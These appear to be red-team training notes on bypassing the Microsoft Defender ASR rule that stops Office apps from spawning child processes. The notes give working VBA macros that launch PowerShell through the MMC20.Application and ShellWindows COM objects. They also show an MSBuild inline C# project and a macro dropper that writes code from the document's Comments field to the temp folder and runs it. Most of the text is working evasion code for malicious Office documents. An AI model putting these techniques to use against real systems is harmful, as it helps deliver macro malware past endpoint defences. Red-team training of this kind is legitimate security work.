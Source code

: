 _"This rule blocks Office apps from creating child processes. This includes Word, Excel, PowerPoint, OneNote, and Access.**"**_

In the [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/2) course, students create macro-enabled documents that spawn and run a PowerShell payload.  The VBA looks something like this:

```vb
Sub Exec()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```

  

If we try and run this on WKSTN-2 which has this ASR rule enabled, we're blocked with a Windows Security alert.

![[61. Block Child Processes.png]]

## COM Bypass

One method to get around this is by using COM.  It's possible to instantiate COM objects directly from VBA, so we can look at leveraging those that we know result in code execution.

Not every COM object will do though - the **LocalServer32** key must be set so that the process will have a parent that is **not** the Office application.  For instance, the **MMC20.Application** object will use mmc.exe as the parent, and both the **ShellWindows** and **ShellBrowserWindow** ShellExecute methods will use explorer.exe as the parent.

Here's an example using MMC20.Application:

```vb
Sub Exec()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

  

mmc.exe will close straight away, thus leaving PowerShell spawned but without a parent.

![[62. Block Child Processes.png]]

  Different versions of Windows seem to handle spawning MMC20.Application differently.  During my research I found that Windows 10 (tested using 21H1) will spawn mmc.exe as a child of the calling app (in this case Word/Excel/etc).  But on Windows Server 2019 (1809), mmc.exe spawns as a child of svchost.exe.

So the above VBA will bypass this ASR rule on something like a Terminal Services machine or a server delivering Office via Citrix, but not on a "standard" end-user Windows 10 machine.

And here's another example using ShellWindows:

```vb
Sub Exec()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

  

This will not produce a visible PowerShell window, but it will be running as a child of explorer.exe.  This is probably the most OPSEC way to spawn PowerShell (as far as OPSEC and PowerShell goes).

![[63. Block Child Processes.png]]

## LOLBAS

It also turns out that not all processes are blocked when this rule is enabled.  For instance, `WScript.Shell` can be used to start Notepad.

![[64. Block Child Processes.png]]

This suggests that the ASR rule is actually based on some sort of blacklist, so there may be scope to use command-line based execution.  An obvious place to look for these is the [LOLBAS project](https://lolbas-project.github.io/).  It only took me a few minutes to discover that **msbuild.exe** is not blocked, and there are probably loads more if you look deeper.

MSBuild can execute inline C# code from a `.xml` or `.csproj` file.  The MSBuild XML schema is documented [here](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference).  Take the following example:

<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <ASRSucks />
  </Target>
  <UsingTask
    TaskName="ASRSucks"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        
        public class ASRSucks : Task, ITask
        {         
          public override bool Execute()
          {
              Console.WriteLine("Hello from C#!");
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>

  

This can be executed like so:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe test.xml
```

![[65. Block Child Processes.png]]



The only requirement is that we drop this code to disk.  One strategy could be to save the code somewhere in the document (such as the comments), fetch it with the Macro, write to disk and execute.

![[66. Block Child Processes.png]]

```vb
Sub Exec()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\code.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\code.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```
  

  Remember that this drops the code to disk, so ensure you remove it afterwards.

